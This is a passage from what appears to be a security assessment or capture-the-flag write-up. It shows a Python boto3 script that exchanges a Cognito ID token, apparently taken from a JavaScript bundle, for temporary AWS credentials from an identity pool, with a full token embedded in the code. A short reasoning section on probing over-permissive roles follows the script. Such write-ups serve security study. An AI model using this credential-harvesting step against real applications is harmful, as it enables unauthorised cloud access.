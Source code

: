     client = boto3.client('cognito-identity', region_name='eu-north-1')
    
    response = client.get_id(
        IdentityPoolId='eu-north-1:1e17b559-4464-4f84-a30f-f53974f45a65',
        Logins={
            'cognito-idp.eu-north-1.amazonaws.com/eu-north-1_55iNnZmYp': (
                'eyJraWQiOiJ3RWtJYzBwR0Jncm1JQjJTZ3d3N0kwb1NrMmtheVBkeldyb2RkQWczSVFFPSIsImFsZyI6IlJTMjU2In0.'
                'eyJzdWIiOiIwMDZjZDlmYy00MGMxLTcwZWUtYTFjOS1hZmMwN2M3ZGFiY2QiLCJlbWFpbF92ZXJpZmllZCI6ZmFsc2Us'
                'ImlzcyI6Imh0dHBzOlwvXC9jb2duaXRvLWlkcC5ldS1ub3J0aC0xLmFtYXpvbmF3cy5jb21cL2V1LW5vcnRoLTFfNTVp'
                'Tm5abVlwIiwiY29nbml0bzp1c2VybmFtZSI6IjAwNmNkOWZjLTQwYzEtNzBlZS1hMWM5LWFmYzA3YzdkYWJjZCIsIm9y'
                'aWdpbl9qdGkiOiIwNzg1MDE0My1iOTc3LTRkYmYtYmY1Zi05NTJlZWYyMWQ3MzQiLCJhdWQiOiIxczNzNnIwZTUxN3I1'
                'aDdtMDBhYjB0NThyYSIsImV2ZW50X2lkIjoiZDMzNjJkOTMtNTI5Ni00MWFkLWI5NjQtZTM2Y2M2MDg0ZmNmIiwidG9r'
                'ZW5fdXNlIjoiaWQiLCJhdXRoX3RpbWUiOjE3NDg0Mzk2NjEsImV4cCI6MTc0ODQ0MzI2MSwiaWF0IjoxNzQ4NDM5NjYx'
                'LCJqdGkiOiIxNTU3MTI1OS0wZmJlLTQ0YjctOTI4ZC0wODY0MzgzMTMwNTAiLCJlbWFpbCI6InRlc3R1c2VyMUBnbWFp'
                'bC5jb20ifQ.07FyLPLA8Yr16OSbmGk_TGF0IJROjUZY4OY5azvfgLyrI6hjj-XcmYlXw94tj9t3O4Zlyc4a-vn8uVMzslz'
                'm2BQwcYw1Ij4pM4_mxR7-XqFDV1c537Sh3En09yVVMnLA6aSqVgaWCjC0CFZmRnDSB89vtFeBxzIYUapM3AMcrbzy5Q8'
                'GvN3AY1g_qZQlr16Zfsbn3y0ECBTk97dKa2U1x8PNxU0wNfbMNnwfbe0hiX9S7HQ3JeaZ3gHBV5dGxcqDgnEm9XlMDcj'
                'PX-LbY7HtViMjYY9Lb005_Kjs93srOaLNWEwxBIjrLHFMqaVQKCaLkK3Pj53laxfkotQS5wjqAQ'
            )
        }
    )
    
    identity_id = response['IdentityId']
    print(f"IdentityId: {identity_id}")
    
    credentials = client.get_credentials_for_identity(
        IdentityId=identity_id,
        Logins={
            'cognito-idp.eu-north-1.amazonaws.com/eu-north-1_55iNnZmYp': (
                'eyJraWQiOiJ3RWtJYzBwR0Jncm1JQjJTZ3d3N0kwb1NrMmtheVBkeldyb2RkQWczSVFFPSIsImFsZyI6IlJTMjU2In0.'
                'eyJzdWIiOiIwMDZjZDlmYy00MGMxLTcwZWUtYTFjOS1hZmMwN2M3ZGFiY2QiLCJlbWFpbF92ZXJpZmllZCI6ZmFsc2Us'
                'ImlzcyI6Imh0dHBzOlwvXC9jb2duaXRvLWlkcC5ldS1ub3J0aC0xLmFtYXpvbmF3cy5jb21cL2V1LW5vcnRoLTFfNTVp'
                'Tm5abVlwIiwiY29nbml0bzp1c2VybmFtZSI6IjAwNmNkOWZjLTQwYzEtNzBlZS1hMWM5LWFmYzA3YzdkYWJjZCIsIm9y'
                'aWdpbl9qdGkiOiIwNzg1MDE0My1iOTc3LTRkYmYtYmY1Zi05NTJlZWYyMWQ3MzQiLCJhdWQiOiIxczNzNnIwZTUxN3I1'
                'aDdtMDBhYjB0NThyYSIsImV2ZW50X2lkIjoiZDMzNjJkOTMtNTI5Ni00MWFkLWI5NjQtZTM2Y2M2MDg0ZmNmIiwidG9r'
                'ZW5fdXNlIjoiaWQiLCJhdXRoX3RpbWUiOjE3NDg0Mzk2NjEsImV4cCI6MTc0ODQ0MzI2MSwiaWF0IjoxNzQ4NDM5NjYx'
                'LCJqdGkiOiIxNTU3MTI1OS0wZmJlLTQ0YjctOTI4ZC0wODY0MzgzMTMwNTAiLCJlbWFpbCI6InRlc3R1c2VyMUBnbWFp'
                'bC5jb20ifQ.07FyLPLA8Yr16OSbmGk_TGF0IJROjUZY4OY5azvfgLyrI6hjj-XcmYlXw94tj9t3O4Zlyc4a-vn8uVMzslz'
                'm2BQwcYw1Ij4pM4_mxR7-XqFDV1c537Sh3En09yVVMnLA6aSqVgaWCjC0CFZmRnDSB89vtFeBxzIYUapM3AMcrbzy5Q8'
                'GvN3AY1g_qZQlr16Zfsbn3y0ECBTk97dKa2U1x8PNxU0wNfbMNnwfbe0hiX9S7HQ3JeaZ3gHBV5dGxcqDgnEm9XlMDcj'
                'PX-LbY7HtViMjYY9Lb005_Kjs93srOaLNWEwxBIjrLHFMqaVQKCaLkK3Pj53laxfkotQS5wjqAQ'
            )
        }
    )
    
    print(credentials['Credentials'])
    ```
    
- **Reasoning**:
    - The JavaScript bundle revealed an Identity Pool, which allows Cognito-authenticated users to obtain temporary AWS credentials. In AWS environments, Identity Pools are often used to grant limited access to services like S3 or DynamoDB for application functionality.
    - Using the `IdToken` to obtain credentials tests whether the Identity Pool grants excessive permissions, a common misconfiguration in AWS setups. For example, a user role might have access to resources beyond what is necessary for the application's functionality, such as internal databases or storage buckets.
    - The script automates this process to efficiently obtain the `IdentityId` and credentials (`AccessKeyId`, `SecretAccessKey`, `SessionToken`), which can then be used to interact directly with AWS services.
- **Result**:
    